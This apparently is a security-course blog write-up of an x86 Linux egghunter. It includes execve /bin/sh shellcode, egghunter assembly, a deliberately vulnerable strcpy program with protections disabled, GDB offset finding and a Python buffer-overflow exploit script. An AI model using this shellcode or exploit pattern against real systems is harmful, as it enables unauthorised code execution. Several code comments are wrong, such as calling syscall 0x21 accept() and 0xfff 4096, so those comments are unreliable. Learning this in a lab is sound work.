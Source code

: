 ```yaml
---
title: SLAE32 Assignment 3 -- Egghunter Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - egghunter
  - execve
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcode
---
```

![](/assets/images/SLAE32.png)

## Overview
For our fourth assignment in the SLAE32 course we were tasked with creating an egghunter.  
_What is an Egg Hunter?_  
An Egghunter is a piece of injectable shellcode that will search the memory of the running program for the a specific, larger payload. Once the Egghunter finds the larger payload, it will pass program control to it by executing it.  

The larger payload that our Egghunter will search for and execute will be the `execve-stack` shellcode provided in the SLAE32 course.  

#### Execve-Stach Assembly Code
```nasm
; Filename: execve-stack.nasm
; Author:  Vivek Ramachandran
; Website:  http://securitytube.net
; Training: http://securitytube-training.com 
;
;
; Purpose: 

global _start			

section .text
_start:

xor eax, eax
push eax
push 0x68732f2f 	; PUSH //bin/sh (8 bytes) 
push 0x6e69622f
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```

#### Egghunter Assembly Code

```nasm
global _start
_start:
mov ebx, 0x50905090   ; EGG - 0x90 is NOP, 0x50 is push eax. Executable, no consequence instructions
xor ecx, ecx          ; Clears the ECX Register.
mul ecx               ; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX registers
nextPage:             ; Increments the memory address stored in EDX by 4096 Bytes (a memory page)
or dx, 0xfff          ; 0xfff = 4096. This is the size of Linux Memory pages.
nextAddress:          ; Increments the memory address stored in EDX by 4 Bytes (a memory address in IA-32 bit)
inc edx               ; in combo with the or dx above, this moves the memory scanner EDX by a page
                      ; in combo with the cmp [edx+0x4] below, this aligns EDX so it will scan the next memory address
                      ; 4095*2=8190+1=8191.
                      ; (inc edx) 4095+1    (inc edx) 8191+1
                      ; or dx when edx is: \x00000000         \x00001000 = 4096   \x00002000 = 8192
                      ;                    \x00000FFF         \x00000FFF = 4095   \x00000FFF = 4095
                      ;                    \x00000FFF = 4095  \x00001FFF = 8191   \x00002FFF = 12287
pusha                 ; Pushes all 16-bit registers onto the stack
lea ebx, [edx+0x4]    ; Increments the Memory Address of EDX by 4 Bytes.
                      ;  Stores the value stored at EDX+4 into the EBX register
mov al, 0x21          ; System Call for accept()
int 0x80              ; Executes accept()
cmp al, 0xf2          ; The return value of accept() is stored in EAX. Checks if access is denied
popa                  ; Pops all 16-bit registers from the stack
jz nextPage           ; If page access is denied, check the next memory page
cmp [edx], ebx
jnz nextAddress
cmp [edx+0x4], ebx
jnz nextAddress
jmp edx
```

### Compiling the Egghunter and Execve-Stack Assembly Code  
```console
nasm -f elf32 eggHunter.nasm -o eggHunter.o
ld eggHunter.o -o eggHunter
nasm -f elf32 execve.nasm -o execve.o
ld execve.o -o execve
```
Once both the programs were compiled I used my object dump bash script to extract the shellcode in hex.

```bash
#!/bin/bash
# Filename: objdump2hex.sh

OBJFILE=$1

objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

```console
root# ./objdump2hex.sh 
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

root# ./objdump2hex.sh execve
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
```

To combine the egghunter with the shellcode, and to define an egg to hunt for, I created a simple C program.  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// egg=0x50905090
#define EGG "\x90\x50\x90\x50"

unsigned char egg[] = EGG;
unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main(){
        printf("Egghunter Length: %d\n", sizeof(egghunter)-1);
        char stack[200];
        printf("Memory location of shellcode: %p\n", stack);
        strcpy(stack, egg);
        strcpy(stack-4, egg);
        strcpy(stack-8, shellcode);

        int (*ret)() = (int(*)())egghunter;
        ret();
}
```


This was the code I used to create a vulnerable C program to use the egghunter exploit on.  

```c
// https://pinkysplanet.net/simple-linux-x86-buffer-overflow/
// Disable ASLR  "echo 0 | sudo tee /proc/sys/kernel/randomize_va_space"
// Compiled with gcc: gcc -fno-stack-protector -z execstack -no-pie ezbof.c -o ezbof
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void pb(char *buf);

int main(int argc, char **argv)
{
	if (argc < 2)
	{
		printf("%s <string>\n",argv[0]);
		exit(0);
	}
	pb(argv[1]);
	return 0;
}

void pb(char *buf)
{
	char buffer[32];
	strcpy(buffer,buf);
	printf("[+] Buffer: %s\n", buffer);
}
```

After compiling the program I needed to find the offset for the stack buffer overflow.  
I used GDB with the peda plugin to generate a unique sting to overflow the buffer.  

```console
gdb ./ezbof
gdb-peda$ pattern_create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  # At time of Crash | EIP: 0x41414641 ('AFAA')
gdb-peda$ pattern_offset 0x41414641
  1094796865 found at offset: 44
gdb-peda$ r `python xploit-ezbof.py`
  # At time of Crash | EIP: 0x37333331 ('1337')
gdb-peda$ info functions
  0x0804848c  pb
gdb-peda$ disassemble pb
  0x080484b9 <+45>:    ret
```

```python 
#!/usr/bin/python
junk = '\x90' * 44
# mov ecx, 0x88888888
# B988888888
#MOV_ECX = '\xb9\x88\x88\x88\x88'
# at time of crash:	ECX: 0x88888888 
#	ESP: 0xbffff4c0 --> 0x888888b9 
#	EIP: 0xbffff4f3 --> 0xfff51c00
#	0000| 0xbffff4c0 --> 0x888888b9 
#	0004| 0xbffff4c4 --> 0x90909088 
#	0008| 0xbffff4c8 --> 0x90909090 

#payload = '\x90' * 46
#EIP = '\x31\x33\x33\x37'
#print junk + EIP + egg
# At time of crash:	ESP: 0xbffff4c0 --> 0x90909090 
#RET = '\xBF\xFF\xF4\xC0'
EIP = '\xc0\xf4\xff\xbf'
#EIP = 0xbffff4c0
# root# ./objdump2hex.sh execve-stack
payload = "\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";

print junk + EIP + payload
```
